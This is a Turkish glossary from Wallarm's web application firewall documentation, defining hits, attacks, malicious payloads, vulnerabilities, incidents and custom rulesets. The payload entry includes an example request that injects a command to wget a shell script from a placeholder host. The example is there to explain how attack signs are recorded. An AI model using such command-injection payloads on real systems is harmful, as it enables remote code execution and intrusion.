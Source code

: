 # Sözlük

Sözlük, platformu daha iyi anlamanız için çekirdek Wallarm öğelerini kapsar.

## Hit

Hit, serileştirilmiş kötü niyetli bir istektir (filtreleme düğümü tarafından eklenen orijinal kötü niyetli istek ve metadata), örneğin:

![Hit örneği](images/user-guides/events/analyze-attack-raw.png)

[Hit parametreleri hakkında ayrıntılar](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## Saldırı

Bir saldırı, aşağıdaki özelliklere göre gruplandırılan tek bir hit veya birden fazla hittir:

* Aynı saldırı türü, kötü niyetli yük taşıyan parametre ve hit'lerin gönderildiği adres. Hit'ler aynı veya farklı IP adreslerinden gelebilir ve bir saldırı türü içinde kötü niyetli yüklerin farklı değerlerine sahip olabilir.

    Bu hit gruplama yöntemi temeldir ve tüm hit'lere uygulanır.
* Uygun [tetikleyici](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) etkinleştirildiyse aynı kaynak IP adresi. Diğer hit parametre değerleri farklı olabilir.

    Bu hit gruplama yöntemi, Brute force, Forced browsing, BOLA (IDOR), Resource overlimit, Data bomb ve Virtual patch saldırı türlerindeki hit'ler dışında tüm hit'ler için çalışır.

    Hit'ler bu yöntemle gruplandırıldığında, saldırı için [**Yanlış pozitif olarak işaretle**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) düğmesi ve [aktif doğrulama](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) seçeneği kullanılamaz.

Belirtilen hit gruplama yöntemleri birbirini dışlamaz. Hit'lerin her iki yöntemin özelliklerine sahip olması durumunda, hepsi tek bir saldırıya gruplandırılır.

Tek bir hit içeren bir saldırının örneği:

![Tek hit'li saldırı](images/glossary/attack-with-one-hit-example.png)

Birçok hit içeren bir saldırının örneği:

![Birçok hit'li saldırı](images/glossary/attack-with-several-hits-example.png)

## Kötü Niyetli Yük

Aşağıdaki öğeleri içeren orijinal bir istemin bir parçası:

* Bir istekte tespit edilen saldırı işaretleri. Bir istekte aynı saldırı türünü karakterize eden birkaç saldırı işareti tespit edilirse, sadece ilk işaret yüke kaydedilir.
* Saldırı işaretinin bağlamı. Bağlam, tespit edilen saldırı işaretlerinin önünde ve sonunda bulunan bir sembol setidir. Bir yük uzunluğu sınırlı olduğundan, bir saldırı işareti tam yük uzunluğunda ise bağlam atlanabilir.

Örneğin:

* İstek:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Kötü niyetli yük:

    ```bash
    ;wget+http://s
    ```

    Bu yükte, `;wget+` [RCE](attacks-vulns-list.md#remote-code-execution-rce) saldırı işareti ve yükün diğer parçası saldırı işaretinin bağlamıdır.

Saldırı işaretleri [davranışsal saldırıları](about-wallarm/protecting-against-attacks.md#behavioral-attacks) tespit etmek için kullanılmadığından, davranışsal saldırıların bir parçası olarak gönderilen isteklerin boş yükleri vardır.

## Güvenlik Zaafı
Bir güvenlik zaafı, bir web uygulamasını oluştururken veya uygularken ihmalkarlık veya yetersiz bilgi nedeniyle yapılan bir hata olup bilgi güvenliği riskine yol açabilir.

Bilgi güvenliği riskleri:

* Yetkisiz veri erişimi; örneğin, kullanıcı verilerini okuma ve değiştirme erişimi.
* Hizmeti reddetme.
* Veri bozulması ve diğerleri.

Internet trafiği, Wallarm'ın diğer fonksiyonlarının yanı sıra güvenlik zaafiyetlerini tespit etmek için kullanılabilir.

## Güvenlik Olayı

Bir güvenlik olayı, bir güvenlik zaafiyetinin sömürülmesi olayıdır. Bir olay, doğrulanmış bir güvenlik zaafiyetine yönelik bir [saldırı](#attack)'dır.

Bir olay, tıpkı bir saldırı gibi, sisteminizin dışında bir varlık ve dış İnternet'in, sistemin kendisinin değil, bir özelliğidir. Var olan güvenlik zaafiyetlerine yönelik saldırılar azınlık olsa da, bilgi güvenliği açısından son derece önemlidirler. Wallarm var olan güvenlik zaafiyetlerine yönelik saldırıları otomatik olarak tespit eder ve bunları ayrı bir obje - olay - olarak görüntüler.

## Dairesel Tampon
Dairesel tampon, uçtan uca bağlıymış gibi sabit boyutlu tek bir tampon kullanarak veri yapısıdır. 
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Circular_buffer).

## Özel kural seti (eski terim LOM)

Bir özel kural seti, Wallarm düğümlerinin Wallarm Bulutu'ndan indirdiği derlenmiş güvenlik kurallarının bir setidir.

Özel kurallar, trafik işleme için bireysel kurallar ayarlamanıza olanak sağlar, örneğin:

* Hassas verileri Wallarm Bulutu'na yüklemeden önce maskele
* RegExp tabanlı saldırı göstergeleri oluştur
* Aktif bir güvenlik zaafiyetini sömüren istekleri engelleyen bir sanal yamayı uygula
* Belirli isteklerde saldırı tespitini devre dışı bırak, vb.

Bir özel kural seti varsayılan olarak boş değildir, Bulut'ta kayıtlı tüm müşteriler için oluşturulan kuralları içerir, örneğin [**Ayarlar → Genel** sekmesinde](user-guides/settings/general.md) değeri olan filtreleme modu kuralı.

[Özel kural setleri hakkında daha fazla ayrıntı](user-guides/rules/intro.md)

## Geçersiz İstek
Filtre düğümü tarafından kontrol edilen ve LOM kurallarına uymayan bir istek.

## Ters Proxy
Bir ters proxy, kaynakları bir sunucudan bir istemci adına alıp istemciye kaynakları, sanki kaynaklar Web sunucusundan geliyormuş gibi geri döndüren bir proxy sunucusu tipidir.
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Reverse_proxy).

## Sertifika Yetkilisi
Bir sertifika yetkilisi, dijital sertifikalar veren bir varlıktır.
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Certificate_authority).